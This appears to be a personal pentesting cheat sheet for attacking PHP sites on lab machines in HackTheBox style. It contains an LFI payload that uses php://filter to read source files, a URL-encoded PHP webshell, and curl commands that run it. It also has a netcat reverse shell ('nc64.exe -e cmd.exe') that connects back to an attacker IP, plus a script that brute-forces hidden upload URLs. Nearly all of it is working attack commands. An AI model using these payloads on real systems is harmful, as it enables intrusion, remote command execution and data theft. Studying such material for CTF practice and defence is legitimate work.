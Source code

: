 ***PHP site***
LFI with php filter
if `?view=` or anything similar is the url like `10.10.146.118/dev/index.html?view=` use php filter in url:
- `10.10.146.118/dev/index.html?view=php://filter/convert.base64-encode/resource=C:\xampp\htdocs\dev\index.html`
	- copy output into base64 to see if there is code that can't be seen on view-source:
fuzz for php files
```
feroxbuster -u http://10.10.220.22/dev/ -x php
```
- if found, php filter to view them like above `http://10.10.146.118/dev/index.html?view=php://filter/convert.base64-encode/resource=C:\xampp\htdocs\dev\db.php`
	- know it's `C:\xampp\htdocs\dev` filepath because IP shows XAMPP server and that is the default directory

php webshell (URL encoded)
```
%3C?php%20system($_REQUEST%5B'cmd'%5D);%20?%3E
```
- go to cyberchef and URL decode to get normal text (careful, breaks obsidian)
- save as file named shell.php
	- upload as file to directory on server with web info (thru smb share maybe)
- run command:
```
curl school.flight.htb/styles/shell.php?cmd=whoami
```
- should get response like "flight\svc_apache"

turn webshell into regular shell:
- upload nc64.exe if windows
```
rlwrap -cAr nc -lnvp 443
```
- start listener
```
curl -G school.flight.htb/styles/shell.php --data-urlencode 'cmd=nc64.exe -e cmd.exe 10.10.14.172 443'
```
- runs nc64.exe targeting listener

if files on website, use `exiftool` to check for creator usernames or other metadata
```
exiftool 2020-01-01-upload.pdf
```

if downloaded files from website have standard name like `2020-15-15-upload.pdf`, script to enumerate other potential files:
```
#!/usr/bin/env python3

import datetime
import requests


t = datetime.datetime(2020, 1, 1)  
end = datetime.datetime(2021, 7, 4) 

while True:
    url = t.strftime("http://intelligence.htb/documents/%Y-%m-%d-upload.pdf")  
    resp = requests.get(url)
    if resp.status_code == 200:
        print(url)
    t = t + datetime.timedelta(days=1)
    if t >= end:
        break
```